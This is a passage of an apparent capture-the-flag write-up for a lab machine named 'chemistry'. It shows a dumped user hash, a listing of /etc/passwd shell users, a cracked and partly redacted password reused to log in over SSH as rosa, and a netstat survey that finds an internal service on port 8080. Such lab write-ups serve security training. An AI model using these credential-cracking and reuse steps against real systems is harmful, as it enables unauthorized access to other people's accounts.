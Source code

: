 `3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5` Lets crack rosa password, since it's a user on the box.

```bash
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
```

creds: `rosa:unico <SNIP> sados`

```bash
╰─➤  ssh rosa@10.129.126.21                                                                                                                                                                                                              130 ↵
The authenticity of host '10.129.126.21 (10.129.126.21)' can't be established.
ED25519 key fingerprint is SHA256:pCTpV0QcjONI3/FCDpSD+5DavCNbTobQqcaz7PC6S8k.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.126.21' (ED25519) to the list of known hosts.
rosa@10.129.126.21's password: 
<SNIP>
rosa@chemistry:~$ id
uid=1000(rosa) gid=1000(rosa) groups=1000(rosa)
```

## Root

```bash
rosa@chemistry:/tmp$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9001            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
```

we see there's another app running under port 8080
